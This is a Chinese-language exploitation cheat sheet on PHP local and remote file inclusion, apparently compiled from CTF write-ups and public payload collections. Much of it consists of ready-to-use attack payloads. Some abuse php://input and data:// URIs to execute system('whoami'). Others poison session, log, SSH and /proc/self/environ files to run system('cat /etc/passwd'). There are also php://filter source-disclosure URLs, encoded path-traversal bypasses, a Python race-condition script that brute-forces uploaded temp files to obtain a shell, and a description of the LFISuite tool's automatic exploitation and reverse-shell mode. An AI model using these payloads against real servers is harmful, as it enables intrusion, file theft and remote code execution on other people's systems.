


[TOC]


# php文件包含


## 0x01 php中引发文件包含的函数

php中引发文件包含漏洞的通常是以下四个函数：

### [include()](http://www.php.net/manual/en/function.include.php)

### [include_once()](http://php.net/manual/en/function.include-once.php)

### [require()](http://php.net/manual/en/function.require.php)

### [require_once()](http://php.net/manual/en/function.require-once.php)


reuqire() 如果在包含的过程中有错，比如文件不存在等，则会直接退出，不执行后续语句。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/1.png?raw=true)

include() 如果出错的话，只会提出警告，会继续执行后续语句。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/2.png?raw=true)

require_once() 和 include_once() 功能与require() 和 include() 类似。但如果一个文件已经被包含过了，则 require_once() 和 include_once() 则不会再包含它，以避免函数重定义或变量重赋值等问题。


**当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。并且即使内容经过编码，也可以包含成功** 


```
<?php
	$file = $_GET['file'];
	include $file;
?>
```


在同目录下有个phpinfo.txt，其内容为`<? phpinfo(); ?>`。则只需要访问：

```
index.php?file=phpinfo.txt
```


即可成功解析phpinfo。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/3.png?raw=true)


## 0x02 利用类别

### 本地文件包含：LFI


### 远程文件包含：RFI

远程文件包含漏洞。是指能够包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的，因此漏洞一旦存在危害性会很大。
但RFI的利用条件较为苛刻，需要php.ini中进行配置

1. allow_url_fopen = On
2. allow_url_include = On


## 0x03 利用方式


### **PHP中支持的伪协议**

```php
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```


```php
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4= 
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
```


### 伪协议利用：file://

file:// 协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on
allow_url_include：off/on


**file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响**


需要绝对路径

```p
http://127.0.0.1/ddctf/lfi/?file=file://D:\phpStudy\PHPTutorial\WWW\ddctf\test.php
```


### 伪协议利用：http://


### 伪协议利用：php://input

利用条件：

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。


姿势：

```
index.php
?file=php://input

POST:
<? phpinfo();?>
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/5.png?raw=true)


### 伪协议利用：php://output

只写数据流，允许你以 print 和 echo 一样的方式 写入到输出缓冲区。

```php
<?php  
$code=$_GET["a"];  
file_put_contents($code,"test");   
?>  
```


file_put_content写入文件，加入php://output后可以写道输出缓冲区


### **伪协议利用：php://filter**（XXE也同样可用）

利用条件：

1. 无要求


姿势：

```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```


通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)

```
>>> import base64
>>> base64.b64decode("PD9waHAgDQoJJGZpbGUgPSAkX0dFVFsnZmlsZSddOw0KCWluY2x1ZGUgJGZpbGU7DQo/Pg==")
b"<?php \r\n\t$file = $_GET['file'];\r\n\tinclude $file;\r\n?>"
```

其他姿势：

```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```


效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。


#### 过滤器

`php://filter` 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。


```bash
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```


**可以运用多种过滤器（字符串/转换/压缩/加密）**


#### **<字符串过滤器>**

```php
string.rot13  进行rot13转换
string.toupper  将字符全部大写
string.tolower  将字符全部小写
string.strip_tags 去除空字符、HTML 和 PHP 标记后的结果。功能类似于strip_tags()函数，若不想某些字符不被消除，后面跟上字符，可利用字符串或是数组两种方式。（自PHP 7.3.0起已弃用此功能。）
```


举例

```php
<?php
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.rot13');
    echo "rot13:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.toupper');
    echo "Upper:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.tolower');
    echo "Lower:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    echo "Del1:";
    stream_filter_append($fp, 'string.strip_tags', STREAM_FILTER_WRITE);
    fwrite($fp, "<b>This is a test.</b>!!!!<h1>~~~~</h1>\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    echo "Del2:";
    stream_filter_append($fp, 'string.strip_tags', STREAM_FILTER_WRITE, "<b>");
    fwrite($fp, "<b>This is a test.</b>!!!!<h1>~~~~</h1>\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.strip_tags', STREAM_FILTER_WRITE, array('b','h1'));
    echo "Del3:";
    fwrite($fp, "<b>This is a test.</b>!!!!<h1>~~~~</h1>\n");
    fclose($fp);
?>
```


#### **<转换过滤器>**


举例：

```php
<?php
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.base64-encode');
    echo "base64-encode:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $param = array('line-length' => 8, 'line-break-chars' => "\n");
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.base64-encode', STREAM_FILTER_WRITE, $param);
    echo "\nbase64-encode-split:\n";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.base64-decode');
    echo "\nbase64-decode:";
    fwrite($fp, "VGhpcyBpcyBhIHRlc3QuCg==\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.quoted-printable-encode');
    echo "quoted-printable-encode:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.quoted-printable-decode');
    echo "\nquoted-printable-decode:";
    fwrite($fp, "This is a test.=0A");
    fclose($fp);
    echo "<br>";

?>
```


#### **<压缩过滤器>**


zlib.* 压缩过滤器自 PHP 版本 5.1.0起可用，在激活 zlib的前提下。也可以通过安装来自 » PECL的 » zlib_filter包作为一个后门在 5.0.x版中使用。此过滤器在 PHP 4 中 不可用。

```php
<?php
$params = array('level' => 6, 'window' => 15, 'memory' => 9);
$original_text = "This is a test.\nThis is only a test.\nThis is not an important string.\n";
echo "The original text is " . strlen($original_text) . " characters long.\n";
$fp = fopen('test.deflated', 'w');
stream_filter_append($fp, 'zlib.deflate', STREAM_FILTER_WRITE, $params);
fwrite($fp, $original_text);
fclose($fp);
echo "The compressed file is " . filesize('test.deflated') . " bytes long.\n";
echo "The original text was:\n";
/* Use readfile and zlib.inflate to decompress on the fly */
readfile('php://filter/zlib.inflate/resource=test.deflated');

/* Generates output:
The original text is 70 characters long.
The compressed file is 56 bytes long.
The original text was:
This is a test.
This is only a test.
This is not an important string.
 */
?>
```


#### **<加密过滤器>**


####  **[phpfilter利用手法.md](phpfilter利用手法.md)**


### 伪协议利用：phar://

利用条件：

1. php版本大于等于php5.3.0


假设有个文件phpinfo.txt，其内容为`<?php phpinfo(); ?>`，打包成zip压缩包，如下：


指定**绝对路径**

```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
```


或者使用**相对路径**（这里test.zip就在当前目录下）

```
index.php?file=phar://test.zip/phpinfo.txt
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/10.png?raw=true)


### 伪协议利用：zip://、bzip2://、zlib://

利用条件：

1. php版本大于等于php5.3.0


```php
3个封装协议，都是直接打开压缩文件。
compress.zlib://file.gz - 处理的是 '.gz' 后缀的压缩包
compress.bzip2://file.bz2 - 处理的是 '.bz2' 后缀的压缩包
zip://archive.zip#dir/file.txt - 处理的是 '.zip' 后缀的压缩包里的文件
```


但使用zip协议，需要指定绝对路径，同时将`#`编码为`%23`，之后填上压缩包内的文件。


```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

**如果可以上传zip文件则上传zip文件，若不能则重命名为test.jpg后上传。**其他几种压缩格式也可以这样操作。




更名为jpg
payload:`http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt`


若是使用相对路径，则会包含失败。


**bzip2://协议**

**使用方法：**
`compress.bzip2://file.bz2`
相对路径也可以

测试
用7-zip生成一个bz2压缩文件。
pyload:`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2`
或者文件改为jpg后缀
`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg`


### 伪协议利用：data:URI schema

利用条件：

1. php版本大于等于php5.2
2. allow_url_fopen = On
3. allow_url_include = On

1. allow_url_include = On

姿势一：

```
index.php?file=data:text/plain,<?php phpinfo();?>
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/6.png?raw=true)

执行命令：

```
index.php?file=data:text/plain,<?php system('whoami');?>
```


姿势二：

```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


加号`+`的url编码为`%2b`，`PD9waHAgcGhwaW5mbygpOz8+`的base64解码为：`<?php phpinfo();?>`
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/7.png?raw=true)

执行命令：

```
index.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```


其中`PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==`的base64解码为：`<?php system('whoami');?>`


### 伪协议利用：expect://cmd


### php://memory 


### php://temp


### php://fd


### 混合利用：bzlib2+phar

```php
compress.bzip2://phar://upload_file/shell.gif/a
```


### 混合利用：php+phar 

```php
php://filter/resource=phar://upload/46c01c941bd10a9c3038752f7354f2e8/b1b288ddc6069e3befa40731e382b192.jpeg
```


## 0x04 利用思路


### 包含session

利用条件：session文件路径已知，且其中内容部分可控。

姿势：

php的session文件的保存路径可以在phpinfo的session.save_path看到。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/14.png?raw=true)

常见的php-session存放位置：

1. /var/lib/php/sess_PHPSESSID
2. /var/lib/php/sess_PHPSESSID
3. /tmp/sess_PHPSESSID
4. /tmp/sessions/sess_PHPSESSID

session的文件名格式为sess_[phpsessid]。而phpsessid在发送的请求的cookie字段中可以看到。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/16.png?raw=true)

要包含并利用的话，需要能控制部分sesssion文件的内容。暂时没有通用的办法。有些时候，可以先包含进session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码。

比如这篇文章：[透過 LFI 引入 PHP session 檔案觸發 RCE](http://kb.hitcon.org/post/165429468072/透過-lfi-引入-php-session-檔案觸發-rce)


In PHP these sessions are stored into /var/lib/php5/sess\_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


包含日志还可配合

-  [php .htaccess利用.md](php .htaccess利用.md)  
-  [php反序列化.md](php反序列化.md) （session反序列化）


进行利用


### 包含日志

#### 访问日志

利用条件： 需要知道服务器日志的存储路径，且日志文件可读。

姿势：

很多时候，web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在 /var/log/apache2/。

但如果是直接发起请求，会导致一些符号被编码使得包含无法正确解析。可以使用burp截包后修改。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/12.png?raw=true)

正常的php代码已经写入了 /var/log/apache2/access.log。然后进行包含即可。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/13.png?raw=true)

在一些场景中，log的地址是被修改掉的。你可以通过读取相应的配置文件后，再进行包含。


这里提供一道包含日志的CTF题目：[SHACTF-2017- Bon Appétit (100)-writeup](https://chybeta.github.io/2017/08/06/SHACTF-2017-Web-writeup/#Methon-Two)


#### SSH log

利用条件：需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log

姿势：

用ssh连接：

```
ubuntu@VM-207-93-ubuntu:~$ ssh '<?php phpinfo(); ?>'@remotehost
```


之后会提示输入密码等等，随便输入。

然后在remotehost的ssh-log中即可写入php代码：
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/17.png?raw=true)

之后进行文件包含即可。


### 包含environ

利用条件：

1. php以cgi方式运行，这样environ才会保持UA头。
2. environ文件存储位置已知，且environ文件可读。

姿势：

proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

可以参考这个：

1. [The proc/self/environ Injection](http://websecuritylog.blogspot.jp/2010/06/procselfenviron-injection.html)
2. [shell via LFI - proc/self/environ method](https://www.exploit-db.com/papers/12886/)


Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```


### 包含fd

跟包含environ类似。

参考： [LFI Cheat Sheet：/proc/self/environ LFI Method](https://highon.coffee/blog/lfi-cheat-sheet/#procselffd-lfi-method)


1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)


### 包含临时文件

[](http://images2015.cnblogs.com/blog/804631/201511/804631-20151116135028890-525890377.jpg)

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考[LFI With PHPInfo Assistance](https://www.insomniasec.com/downloads/publications/LFI With PHPInfo Assistance.pdf)

类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题：[XMAN夏令营-2017-babyweb-writeup](https://chybeta.github.io/2017/08/22/XMAN夏令营-2017-babyweb-writeup/)


Worlds Quitest Let's Play"

- Upload a file and trigger a self-inclusion.
- Repeat 1 a shitload of time to:
- increase our odds of winning the race
- increase our guessing odds
- Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
- Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


### 包含上传文件

利用条件：千变万化，不过至少得知道上传的文件在哪，叫啥名字。。。

姿势：

往往要配合上传的姿势，不说了，太多了。


### 其余

一个web服务往往会用到多个其他服务，比如ftp服务，数据库等等。这些应用也会产生相应的文件，但这就需要具体情况具体分析咯。这里就不展开了。


### **条件竞争包含**


## 0x05 绕过姿势

### 指定前缀

先考虑一下指定了前缀的情况吧。测试代码:

```
<?php
	$file = $_GET['file'];
	include '/var/www/html/'.$file;
?>
```

### 目录遍历

现在在/var/log/test.txt文件中有php代码`<?php phpinfo();?>`，则利用`../`可以进行目录遍历，比如我们尝试访问：

```
include.php?file=../../log/test.txt
```


则服务器端实际拼接出来的路径为：/var/www/html/../../log/test.txt，也即/var/log/test.txt。从而包含成功。


### 编码绕过

服务器端常常会对于`../`等做一些过滤，可以用一些编码来进行绕过。下面这些总结来自《白帽子讲Web安全》。

- 利用url编码
  - ../
    - %2e%2e%2f
    - ..%2f
    - %2e%2e/
  - ..\
    - %2e%2e%5c
    - ..%5c
    - %2e%2e\
- 二次编码
  - ../
    - %252e%252e%252f
  - ..\
    - %252e%252e%255c
- 容器/服务器的编码方式
  - ../
    - ..%c0%af
      - 注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
    - %c0%ae%c0%ae/
      - 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
      - Apache Tomcat Directory Traversal
  - ..\
    - ..%c1%9c


## 0x06 fuzz集合

### 伪协议fuzz字典

```
file
http
ftp
php
zlib
data
glob
phar
ssh2
rar
ogg
expect
zip
bzip2
```


### 文件包含文件路径fuzz字典集合

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File Inclusion/Intruders)


## 0x07 利用工具

### [LFISuite](https://github.com/D35m0nd142/LFISuite)


#### What is LFI Suite?

LFI Suite is a totally **automatic** tool able to scan and exploit Local File Inclusion vulnerabilities using many different methods of attack, listed in the section `Features`.

------

##### Features

- Works with Windows, Linux and OS X
- Automatic Configuration
- Automatic Update
- Provides 8 different Local File Inclusion attack modalities:
  - /proc/self/environ
  - php://filter
  - php://input
  - /proc/self/fd
  - access log
  - phpinfo
  - data://
  - expect://
- Provides a ninth modality, called **Auto-Hack**, which scans and exploits the target automatically by trying all the attacks one after the other without you having to do anything (except for providing, at the beginning, a list of paths to scan, which if you don't have you can find in this project directory in two versions, small and huge).
- Tor proxy support
- Reverse Shell for Windows, Linux and OS X

#### How to use it?

Usage is extremely simple and LFI Suite has an easy-to-use user interface; just run it and let it lead you.

#### Reverse Shell

When you got a LFI shell by using one of the available attacks, you can easily obtain a reverse shell by entering the command **"reverseshell"** (obviously you must put your system listening for the reverse connection, for instance using **"nc -lvp port"**).


#### 教程

- [Automatic Local File Inclusion Hacking with LFI Suite](https://www.youtube.com/watch?v=6sY1Skx8MBc)


# 参考及转载资料

- [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
- [文件包含漏洞与PHP伪协议](https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [FDsploit](https://github.com/chrispetrou/FDsploit)

